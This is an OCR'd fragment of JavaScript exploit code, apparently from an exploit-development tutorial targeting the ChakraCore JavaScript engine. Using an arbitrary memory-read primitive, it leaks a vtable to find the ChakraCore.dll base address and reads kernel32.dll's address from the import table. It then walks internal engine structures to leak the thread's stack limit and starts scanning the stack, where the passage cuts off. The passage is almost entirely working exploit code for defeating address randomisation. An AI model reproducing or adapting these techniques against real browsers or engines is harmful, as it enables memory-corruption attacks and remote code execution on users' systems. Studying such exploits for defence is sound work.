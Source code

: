 ```javascript
    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Loop
    while (counter < 0x10000)
    {
        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Print update
```